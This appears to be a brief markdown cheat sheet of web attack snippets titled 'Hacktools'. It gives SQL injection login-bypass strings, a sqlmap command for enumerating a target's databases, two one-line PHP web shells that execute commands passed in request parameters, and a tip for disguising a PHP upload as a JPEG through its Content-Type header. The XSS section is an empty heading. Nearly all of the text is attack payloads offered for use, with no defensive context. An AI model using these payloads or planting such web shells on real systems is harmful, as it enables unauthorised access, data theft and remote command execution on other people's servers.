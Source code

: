 # Hacktools

# SQLI
## Easy command
'OR 1=1-- <br>
'OR '1'='1'--'

## Autotools
sqlmap -u "target-url" -p your-parament --thread 10 --random-agent --batch --dbs


# XSS


# php file upload webshell

```
<?php system($_REQUEST["cmd"]);?> 
<?php echo shell_exec($_GET['cmd']);?> 
```
or <br>
將 Content-Type: application/x-php 換成 /image/jpeg
